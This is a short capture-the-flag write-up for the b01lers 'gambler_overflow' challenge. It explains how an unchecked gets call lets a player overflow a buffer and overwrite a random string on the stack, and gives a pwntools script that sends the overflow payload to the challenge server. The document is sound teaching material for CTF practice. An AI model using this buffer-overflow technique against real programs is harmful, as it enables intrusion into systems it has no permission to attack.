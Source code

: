 ## Question 

Feeling luuuuuuuucky? \

You must create a flag.txt in the same folder as the binary for it to run. \
nc ctf.b01lers.com 9203 \

Author: robotearthpizza \
Difficulty: Easy \

[gambler_overflow](gambler-baby2) \

## Solution

The binary uses ```gets```, which we can abuse to overflow the local variable containing the random string.

```
0000158d          printf(format: "Guess me a string of length 4 wi…")
0000159e          gets(buf: &var_20)
000015b6          printf(format: "Your guess: %s\n", &var_20)
```

```python
from pwn import *

p = process('./gambler-baby2')
p = remote('ctf.b01lers.com', 9203)

while (True):
    data = b'A\0'*8+b'A\0'*8
    p.sendline(data)
    print(p.recvline())

p.interactive()
```

